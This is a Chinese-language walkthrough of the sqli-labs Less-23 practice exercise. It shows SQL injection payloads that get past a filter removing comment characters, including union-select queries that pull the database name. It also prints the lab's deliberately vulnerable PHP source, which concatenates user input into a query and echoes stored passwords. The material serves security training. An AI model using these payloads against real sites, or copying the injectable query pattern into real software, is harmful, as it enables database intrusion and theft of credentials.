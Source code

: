 # Less-23 **GET Error Based- no comments**  
TAG：GET型注入、注释符过滤  
## 漏洞利用
![less23_1](images\less23_1.png)  
此less的参数传递模式为GET型  
为了获取更多信息，先传输一个单引号'到页面尝试获取报错信息  
  
payload:```?id='```  
![less23_2](images\less23_2.png)  
分析一下报错信息可知，传入页面的参数被单引号包裹  
尝试使用less1的payload进行攻击  
  
Payload:```?id=-1' or 1=1--+```  
![less23_3](images\less23_3.png)  
  
很明显存在过滤，尝试另一种payload写法  
Payload:```?id=-1' or '1'='1```   
![less23_4](images\less23_4.png)  
此种攻击语句并不需要使用注释符对后半句语句进行注释，规避掉了对注释符的过滤，可以穿透针对注释符过滤的页面    
  
获取回显点位置payload:```?id=-1' union select 1,2,'3```
![less23_5](images\less23_5.png)  
  
获取数据库名payload:```?id=-1' union select 1,database(),'3```  
![less23_6](images\less23_6.png)  

## 源码分析  
### less23源码：  
```
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
<meta http-equiv="Content-Type" content="text/html; charset=utf-8" />
<title>Less-23 **Error Based- no comments**</title>
</head>

<body bgcolor="#000000">
<div style=" margin-top:70px;color:#FFF; font-size:23px; text-align:center">Welcome&nbsp;&nbsp;&nbsp;<font color="#FF0000"> Dhakkan </font><br>
<font size="3" color="#FFFF00">


<?php
//including the Mysql connect parameters.
include("../sql-connections/sql-connect.php");

// take the variables 
if(isset($_GET['id']))
{
$id=$_GET['id'];

//filter the comments out so as to comments should not work
$reg = "/#/";
$reg1 = "/--/";
$replace = "";
$id = preg_replace($reg, $replace, $id);
$id = preg_replace($reg1, $replace, $id);
//logging the connection parameters to a file for analysis.
$fp=fopen('result.txt','a');
fwrite($fp,'ID:'.$id."\n");
fclose($fp);

// connectivity 


$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
$result=mysql_query($sql);
$row = mysql_fetch_array($result);

	if($row)
	{
  	echo '<font color= "#0000ff">';	
  	echo 'Your Login name:'. $row['username'];
  	echo "<br>";
  	echo 'Your Password:' .$row['password'];
  	echo "</font>";
  	}
	else 
	{
	echo '<font color= "#FFFF00">';
	print_r(mysql_error());
	echo "</font>";  
	}
}
	else { echo "Please input the ID as parameter with numeric value";}

?>
</font> </div></br></br></br><center>
<img src="../images/Less-23.jpg" /></center>
</body>
</html>
```  
  
### 漏洞点分析   
```
...
if(isset($_GET['id'])){
    $id=$_GET['id'];
    $reg = "/#/";
    $reg1 = "/--/";
    $replace = "";
    $id = preg_replace($reg, $replace, $id);
    $id = preg_replace($reg1, $replace, $id);
    $fp=fopen('result.txt','a');
    fwrite($fp,'ID:'.$id."\n");
    fclose($fp);
    $sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
    $result=mysql_query($sql);
    $row = mysql_fetch_array($result);
...
``` 
    
在此less中，使用了```preg_replace()```函数来进行对传入参数的过滤  
![less23_7](images\less23_7.png)  
此函数会对输入的参数进行正则匹配，对匹配到的部分字符串进行替换  
```
    $reg = "/#/";
    $reg1 = "/--/";
    $replace = "";
    $id = preg_replace($reg, $replace, $id);
    $id = preg_replace($reg1, $replace, $id);
```
通过函数对输入参数中的所有 ```#``` 与 ```--``` 替换为空字符，从而实现对注释符的过滤操作  
   
### 过滤点突破方法  
使用不需要过滤符进行语句闭合的payload  
页面SQL语句：```$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";```  
  
Payload:```?id=-1' or '1'='1```   
  
加上payload之后  
```$sql="SELECT * FROM users WHERE id='-1' or '1'='1' LIMIT 0,1";```  
此时传递到数据库的语句的```WHERE```条件为```1```，会直接返回```id```为```1```的用户数据  
